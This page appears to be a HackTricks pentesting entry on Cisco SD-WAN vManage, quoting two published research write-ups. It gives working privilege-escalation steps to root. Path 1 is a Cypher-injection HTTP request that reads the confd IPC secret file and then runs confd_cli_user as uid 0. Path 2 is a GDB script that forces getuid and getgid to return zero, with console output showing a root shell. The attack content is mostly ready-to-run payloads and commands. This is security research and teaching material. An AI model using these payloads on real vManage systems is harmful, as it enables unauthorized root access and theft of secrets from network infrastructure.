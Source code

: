 # Cisco - vmanage

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Path 1

(Example from [https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html](https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html))

After digging a little through some [documentation](http://66.218.245.39/doc/html/rn03re18.html) related to `confd` and the different binaries (accessible with an account on the Cisco website), we found that to authenticate the IPC socket, it uses a secret located in `/etc/confd/confd_ipc_secret`:

```
vmanage:~$ ls -al /etc/confd/confd_ipc_secret 

-rw-r----- 1 vmanage vmanage 42 Mar 12 15:47 /etc/confd/confd_ipc_secret
```

Remember our Neo4j instance? It is running under the `vmanage` user's privileges, thus allowing us to retrieve the file using the previous vulnerability:

```
GET /dataservice/group/devices?groupId=test\\\'<>\"test\\\\\")+RETURN+n+UNION+LOAD+CSV+FROM+\"file:///etc/confd/confd_ipc_secret\"+AS+n+RETURN+n+//+' HTTP/1.1

Host: vmanage-XXXXXX.viptela.net 



[...]

"data":[{"n":["3708798204-3215954596-439621029-1529380576"]}]}
```

The `confd_cli` program does not support command line arguments but calls `/usr/bin/confd_cli_user` with arguments. So, we could directly call `/usr/bin/confd_cli_user` with our own set of arguments. However it's not readable with our current privileges, so we have to retrieve it from the rootfs and copy it using scp, read the help, and use it to get the shell:

```
vManage:~$ echo -n "3708798204-3215954596-439621029-1529380576" > /tmp/ipc_secret

vManage:~$ export CONFD_IPC_ACCESS_FILE=/tmp/ipc_secret 

vManage:~$ /tmp/confd_cli_user -U 0 -G 0

Welcome to Viptela CLI

admin connected from 127.0.0.1 using console on vManage

vManage# vshell

vManage:~# id

uid=0(root) gid=0(root) groups=0(root)
```

## Path 2

(Example from [https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77](https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77))

The blog¹ by the synacktiv team described an elegant way to get a root shell, but the caveat is it requires getting a copy of the `/usr/bin/confd_cli_user` which is only readable by root. I found another way to escalate to root without such hassle.

When I disassembled `/usr/bin/confd_cli` binary, I observed the following:

```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        callq  400f40 <getuid@plt>  <-- HERE
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        callq  401000 <getgid@plt>  <-- HERE
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```

When I run “ps aux”, I observed the following (_note -g 100 -u 107_)

```
vmanage:~$ ps aux 
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g 100 -u 1007 bash
… snipped …
```

I hypothesized the “confd\_cli” program passes the user ID and group ID it collected from the logged in user to the “cmdptywrapper” application.

My first attempt was to run the “cmdptywrapper” directly and supplying it with `-g 0 -u 0`, but it failed. It appears a file descriptor (-i 1015) was created somewhere along the way and I cannot fake it.

As mentioned in synacktiv’s blog(last example), the `confd_cli` program does not support command line argument, but I can influence it with a debugger and fortunately GDB is included on the system.

I created a GDB script where I forced the API `getuid` and `getgid` to return 0. Since I already have “vmanage” privilege through the deserialization RCE, I have permission to read the `/etc/confd/confd_ipc_secret` directly.

root.gdb:

```
set environment USER=root
define root
   finish
   set $rax=0
   continue
end
break getuid
commands
   root
end
break getgid
commands
   root
end
run
```

Console Output:

```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
